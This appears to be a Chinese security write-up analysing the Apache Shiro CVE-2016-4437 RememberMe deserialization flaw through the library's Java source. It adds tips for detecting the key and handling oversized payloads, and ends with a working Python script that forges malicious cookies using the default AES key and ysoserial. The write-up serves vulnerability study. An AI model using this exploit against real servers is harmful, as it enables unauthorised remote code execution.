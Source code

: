 # Shiro <=1.2.4 CVE-2016-4437 反序列化漏洞
**原理:**  
在Remember me功能中,其设置的cookie字段内容可被伪造,且该内容未被验证过滤进行反序列化处理造成反序列化漏洞
## Remember me
Remember me可以为用户生成一个长时间存在的cookie以便即使浏览器关闭后再次打开相关页面也不用再次登输入账号密码
### 生成过程
在onSuccessfulLogin函数中,当用户登录后调用forgetIdentity()来清除之前的认证信息,然后调用isRemeberme判断是否启用了Remeberme功能,如果启用了则调用remeberIdentity()进行后续操作
```java

    public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
        //always clear any previous identity:
        forgetIdentity(subject);//清除已有的认证信息

        //now save the new identity:
        if (isRememberMe(token)) {//判断是否启用remeberme功能
            rememberIdentity(subject, token, info);//后续操作
        } else {
            if (log.isDebugEnabled()) {
                log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                        "RememberMe functionality will not be executed for corresponding account.");
            }
        }
    }
```
在rememberIdentity()中首先调用getIdentityToRemember()来获取到用户ID对象,然后调用rememberIdentity()
![](pic/202007061png.png)
在rememberIdentity()中使用convertPrincipalsToBytes来将用户ID对象序列化为一个字节数组,然后调用加密函数对字节数组进行encrypt
```java
    protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        byte[] bytes = serialize(principals);//序列化
        if (getCipherService() != null) {
            bytes = encrypt(bytes);//调用加密函数
        }
        return bytes;
    }
```
在encrypt()中调用默认的AES算法对字节数组进行加密,而AES的加密密钥则是从getEncryptionCipherKey()中获取的,而该值为一个固定的值.
![](pic/202007062.png)
默认加密密钥
![](pic/202007063.png)
rememberIdentity()在得到AES加密后的结果后调用rememberSerializedIdentity()来将该值b64编码后设置到cookie中.
![](pic/202007064.png)

生成流程:
1. 登录成功后清除已有认证信息,判断Remeberme参数是否为true.
2. 获取用户ID对象,反序列化ID对象之后调用AES加密.
3. 将加密后的结果b64编码后设置到cookie中供后续使用.

![](pic/202007065.png)
### 解码过程 
去掉登录的session来发送一个带有rememberme cookie的请求,触发resolvePrincipals()方法,在其中调用
getRememberedIdentity()进行remeberme认证,还原用户ID对象.  
```java
    protected SubjectContext resolvePrincipals(SubjectContext context) {

        PrincipalCollection principals = context.resolvePrincipals();

        if (CollectionUtils.isEmpty(principals)) {
            log.trace("No identity (PrincipalCollection) found in the context.  Looking for a remembered identity.");

            principals = getRememberedIdentity(context);
            ...
            ...
```
在getRememberedIdentity()方法中,在该函数中获取到一个getRememberMeManager对象,然后调用其getRememberedPrincipals()方法获取到存储的Principal对象,也就是包含用户信息的一个对象.
```java
    protected PrincipalCollection getRememberedIdentity(SubjectContext subjectContext) {
        RememberMeManager rmm = getRememberMeManager();//获取getRememberMeManager对象
        if (rmm != null) {
            try {
                return rmm.getRememberedPrincipals(subjectContext);//调用getRememberMeManager的getRememberedPrincipals方法
            } catch (Exception e) {
                if (log.isWarnEnabled()) {
                    String msg = "Delegate RememberMeManager instance of type [" + rmm.getClass().getName() +
                            "] threw an exception during getRememberedPrincipals().";
                    log.warn(msg, e);
                }
            }
        }
        return null;
    }
}
```
在getRememberedPrincipals()中从cookie的remeberme字段获取到值进行b64解码得到加密的序列化后的字节数组,然后传入convertBytesToPrincipals中.
![](pic/202007066.png)
getRememberedSerializedIdentity获取对应cookie值.
![](pic/202007067.png)
在convertBytesToPrincipals()中对AES加密的值进行解密,解密后直接传入deserialize().
![](pic/202007068.png)
最后在deserialize中来到最终的readObject方法,造成反序列化漏洞.
![](pic/202007069.png)
## 实战Tips
### 加密方式
版本大于1.24后由于padding orcal的影响,加密方式由CBC改为了GCM.
### Key检测
1. 一般使用URLDNS模块进行检测,但可能遇到不出网的情况误报.  
2. 默认情况下如果正确的反序列化数据,服务器不会返回`rememberMe=deleteMe`,可以根据返回头确定Key是否正确.
### payload过长
1. 反序列化时只生成一个自定义的classLoader,在classloder中反射defineclass方法,该方法的参数从POST取出,把我们注册filter的这段payload写在static代码块里,编译后的byte再通过POST传递,自定义ClassLoader加载时会自动执行static代码块的代码,代码要URL编码.
2. 反序列化带参数的构造方法或者静态方法的类使用rmi加载远程恶意类,相当于二次反序列化.
## ExP
```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'URLDNS', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)

```
![](pic/202007072.png) 

![](pic/202007071.png)


**参考:**  
https://mp.weixin.qq.com/s/5iYyRGnlOEEIJmW1DqAeXw  
https://xz.aliyun.com/t/8445